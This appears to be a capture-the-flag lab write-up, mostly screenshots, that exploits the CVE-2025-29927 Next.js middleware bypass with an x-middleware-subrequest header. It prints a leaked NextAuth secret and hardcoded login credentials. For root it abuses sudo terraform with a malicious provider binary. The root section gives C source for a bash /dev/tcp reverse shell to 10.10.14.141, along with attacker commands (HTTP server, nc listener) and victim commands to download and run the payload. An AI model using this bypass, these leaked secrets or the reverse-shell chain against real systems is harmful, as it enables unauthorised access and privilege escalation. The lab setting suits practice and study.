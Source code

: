 ![[IMG-20250825192312409.png]]
## User Flag

### [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250825192312472.png]]

![[IMG-20250825192312635.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250825192312724.png]]

![[IMG-20250825192312815.png]]

![[IMG-20250825192312925.png]]

![[IMG-20250825192313002.png]]



![[IMG-20250825192313077.png]]

![[IMG-20250825192313147.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825192313265.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825192313327.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```


```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825192313380.png]]

## Root Flag

### Analyse

![[IMG-20250825192313517.png]]

![[IMG-20250825192313635.png]]

### Exploit

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825192313713.png]]

Load a config file custom.

![[IMG-20250825192313763.png]]

### Attacker machine

```bash
gcc main.c -o terraform-provider-examples
python3 -m http.server 8000
nc -lvnp 4444
```

main.c:
```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.141/4444 0>&1", NULL);
    return 0;
}

```

### Victim machine

```bash
wget http://10.10.14.141:8000/terraform-provider-examples
chmod +x terraform-provider-examples
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```

![[IMG-20250825192313844.png]]

![[IMG-20250825192313920.png]]




